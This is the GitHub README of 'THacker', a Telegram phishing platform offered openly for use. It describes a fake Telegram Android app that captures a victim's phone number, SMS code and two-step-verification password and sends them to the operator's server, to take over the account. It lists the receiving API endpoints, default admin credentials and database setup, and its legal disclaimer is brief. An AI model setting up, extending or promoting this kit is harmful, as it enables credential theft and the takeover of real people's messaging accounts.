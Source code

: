 # Telegram Hacker ` THacker `

### Android App
The Android app is Written in dart (Flutter) and the source code for that is 👇👇👇
[Android App source code](https://github.com/mikiyasET/Thacker/tree/master)

### What Is It?

THacker is a Phishing platform that can trick and get a telegram account even if it's secured with two step verification. 

## Current Version

**Version 2.0**

## How it works

	It works with an android device so the victim must install the android app or the app can be installed by you in the device the app will look just like normal telegram app so the victim will think it's the normal telegram app he usually uses and when he open the app he will see the default telegram login page and Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   

# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*									`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.


## Dev

- Mikiyas Lemlemu
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu <img width="10px" height="10px" src="https://img.icons8.com/metro/26/000000/marker.png"/> ETHIOPIA 🇪🇹

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)


